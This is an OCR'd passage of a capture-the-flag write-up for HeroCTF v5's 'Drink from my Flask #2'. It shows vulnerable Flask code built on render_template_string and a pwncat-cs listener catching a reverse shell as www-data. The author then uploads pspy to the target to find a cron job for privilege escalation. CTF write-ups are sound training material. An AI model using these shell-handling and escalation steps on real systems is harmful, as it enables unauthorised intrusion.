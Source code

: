 ```python
    role = decodedToken.get('role')
    if role is None:
        return render_template_string("<h2>Invalid token</h2>"), 403

    if role == "admin":
        return render_template_string("Welcome admin !"), 200

    return render_template_string("Sorry but you can't access this page, you're a '{role}'", role=role), 403


@app.errorhandler(werkzeug.exceptions.BadRequest)
def handle_page_not_found(e):
    return render_template_string("<h2>{page} was not found</h2><br><p>Only routes / and /adminPage are available</p>", page=request.path), 404

app.register_error_handler(404, handle_page_not_found)


app.run(debug=True, use_debugger=True, use_reloader=False, host="0.0.0.0", port=parser.parse_args().port)
```

**Since I want a stable shell and transfering files between my VM and the instance machine, I'll switch to [`pwncat-cs`](https://github.com/calebstewart/pwncat):**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/Drink-from-my-Flask#2)-[2023.05.13|22:49:10(HKT)]
└> pwncat-cs -lp 4444
/home/siunam/.local/lib/python3.11/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[22:49:11] Welcome to pwncat 🐈!                                                            __main__.py:164
[22:50:01] received connection from 127.0.0.1:35986                                              bind.py:84
[22:50:05] localhost:35986: registered new host w/ db                                        manager.py:957
(local) pwncat$                                                                                            
(remote) www-data@flask:/var/www/app$ whoami;hostname;id
www-data
flask
uid=33(www-data) gid=33(www-data) groups=33(www-data)
(remote) www-data@flask:/var/www/app$ 
```

**Now, we can upload the `pspy` binary, which list out all the running processes:**
```shell
(local) pwncat$ upload /opt/pspy/pspy64 /tmp/pspy64
/tmp/pspy64 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 3.1/3.1 MB • 3.5 MB/s • 0:00:00
[22:52:14] uploaded 3.08MiB in 5.77 seconds                                                    upload.py:76
(local) pwncat$                                                                                            
(remote) www-data@flask:/var/www/app$ chmod +x /tmp/pspy64 
(remote) www-data@flask:/var/www/app$ /tmp/pspy64
[...]
2023/05/13 14:53:01 CMD: UID=0    PID=496    | CRON -f 
2023/05/13 14:53:01 CMD: UID=0    PID=497    | CRON -f 
2023/05/13 14:53:01 CMD: UID=1000 PID=498    | /bin/sh /home/flaskdev/reboot_flask.sh 
2023/05/13 14:53:01 CMD: UID=1000 PID=501    | grep -E .*/usr/bin/python3 /var/www/dev/app.py 
2023/05/13 14:53:01 CMD: UID=1000 PID=500    | ps -aux 
2023/05/13 14:53:01 CMD: UID=1000 PID=499    | /bin/sh /home/flaskdev/reboot_flask.sh 
```